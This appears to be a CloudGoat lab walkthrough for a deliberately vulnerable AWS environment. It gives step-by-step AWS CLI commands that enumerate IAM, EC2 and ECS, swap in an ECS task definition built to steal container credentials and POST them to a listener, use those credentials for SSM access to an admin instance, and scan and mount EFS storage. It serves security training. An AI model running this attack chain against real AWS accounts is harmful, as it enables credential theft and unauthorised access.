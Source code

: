 1. Connect to the start ec2 "Ruse_Box" using the public IP and SSH key provided.

    `ssh -i cloudgoat ubuntu@<IP ADDRESS>`

2. Configure the role credentials

    `aws configure --profile ruse`

3. List the privileges
`aws iam list-policies --profile ruse`

4. List ec2 instances

    `aws ec2 describe-instances --profile ruse `

5. List all available ECS clusters

    `aws ecs list-clusters --profile ruse`

6. List services in cloudgoat cluster

    `aws ecs list-services --cluster <CLUSTER NAME> --profile ruse`

7. Download task definition

    `aws ecs describe-task-definition --task-definition <TASK_NAME>:<VERSION> --profile ruse > task_def.json `

8. Download template to register a new task

    `aws ecs register-task-definition --generate-cli-skeleton --profile ruse > task_template.json`

9. Now use task_def.json to fill out template.json with the desired payload. Reference our blog for details [here](https://rhinosecuritylabs.com/aws/weaponizing-ecs-task-definitions-steal-credentials-running-containers/)

10. Now register the template to replace the currently running task.

    `register-task-definition --cli-input-json file://task_template.json  --profile ruse`

11. Update the ECS service with the newly registered task definition.

    `aws ecs update-service --cluster <CLUSTER NAME> --service <SERVICE NAME> --task-definition <NEW TASK DEFINITION NAME>`

12. Wait for the task to run and POST the credentials to your listener

13. With the new creds add them to "ruse_box"

    `aws configure --profile ecs`

14. Modify admin ec2 tags

    `aws ec2 create-tags --resources <INSTANCE ID> --tags Key=StartSession,Value=true`

15. Using ecs creds start a session on admin ec2

    `aws ssm start-session --target <INSTANCE ID> --profile ecs`

16. Looking at the ec2 instances we see the admin ec2 only has a single port open. We Nmap scan this port.

    `nmap -Pn -P 2049 --open 10.10.10.0/24 `

17. Mount discovered ec2

    `cd /mnt`
`sudo mkdir /efs`
`sudo mount -t nfs4 -o nfsvers=4.1,rsize=1048576,wsize=1048576,hard,timeo=600,retrans=2,noresvport <IP ADDRESS OF EFS>:/ efs`
